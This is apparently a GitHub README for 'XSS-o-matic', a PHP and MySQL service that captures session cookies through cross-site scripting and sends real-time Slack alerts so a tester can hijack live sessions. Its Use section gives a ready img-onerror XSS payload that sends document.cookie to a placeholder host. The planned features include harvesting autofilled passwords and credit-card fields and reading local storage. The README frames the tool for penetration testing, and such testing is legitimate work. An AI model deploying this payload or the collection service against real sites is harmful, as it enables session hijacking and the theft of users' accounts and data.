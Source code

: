 # XSS-o-matic
Recieve Real-Time Slack (or other) Notifications for When Session Cookies are Captured via Stored and Reflected Cross Site Scripting (XSS)

# Description
This is another API, similar to my Phishing API, except this one aids in Session Hijacking when HTML Injection/XSS is discovered on a page.  This was born out of a need to do more than the standard JavaScript alert box.  I needed a simple one-liner my team could use whenever they encountered Cross Site Scripting and I needed to act quickly via real-time notifications while the user's session was still valid.  For this to fully work properly, HttpOnly flags can't be set in the target site's cookies.  For those that aren't familiar with Session Hijacking, please read up on it from the OWASP page here : https://www.owasp.org/index.php/Session_hijacking_attack.  

TL-DR is that you can jump into a user's session without credentails to access authenticated areas of the web application.  There's a MySQL database which also captures a handful of other useful data, such as timestamps, IP addresses, User Agent strings, Hostnames, and Referer headers.

# Future Implementation Goals Include : 

Capturing Cross Domain Cookies

Hidden User/Pass/CC Fields for Auto Population

Ability to Read Local Storage if Available

Integrate into IFTTT for Alterting Options


# Initial Deployment
Just host the PHP files on a web server and import the SQL Dump to create the schema.

# Use
When XSS is Discovered During an Application Security or Penetration Test, Simply Use `<img src=x onerror=this.src='https://YOUR-URL-HERE.com/XSS.php?project=YOUR-PROJECT-HERE&cookie='+document.cookie> height=1 width=1` as Your Payload.  You may need to modify based on filtering of course, but as long as you're posting data to that URI it should work.


![Slack Bot Notification](https://i.imgur.com/JLVGbhe.png)

